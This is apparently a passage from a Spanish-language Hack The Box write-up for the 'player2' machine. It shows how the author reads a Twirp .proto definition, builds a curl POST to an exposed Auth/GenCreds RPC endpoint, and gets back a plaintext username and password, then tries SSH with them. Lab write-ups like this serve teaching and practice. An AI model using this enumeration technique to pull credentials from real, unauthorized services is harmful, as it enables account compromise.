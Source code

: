 Parece que lo guarda en un .proto que seguramente sea el que hemos encontrado antes. generated.proto

En https://twitchtv.github.io/twirp/docs/spec_v5.html vemos que haciendo un post también se puede conseguir algo

```bash
URL ::= Base-URL "/twirp/" [ Package "." ] Service "/" Method
```
o

```bash
curl --request "POST" \
     --location "http://localhost:8080/twirp/[package].[service]/[rpc]" \
     --header "Content-Type:application/json" \
     --data '{"[key for input message]": [value]}'
```
según el código que vimos antes
```bash

package twirp.player2.auth;
option go_package = "auth";

service Auth {
  rpc GenCreds(Number) returns (Creds);
}

message Number {
  int32 count = 1; // must be > 0
}

```
La url debería de ser algo así
package twirp.player2.auth
service Suth
método GenCreds
message count=1


> No olvidar que iba por el puerto 8545 en vez del 8080 como aparece arriba

sería algo así como:

```bash
http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds

curl -s --request "POST" \
    --header "Content-Type: application/json" \
    --data '{"COUNT":1}' \
    http://player2.htb:8545/twirp/twirp.player2.auth.Auth/GenCreds

#Nos devuelve

{"name":"jkr","pass":"ze+EKe-SGF^5uZQX"}%         
```
Siempre que encuentro una clave intento hacer ssh... pero en este caso nanai 
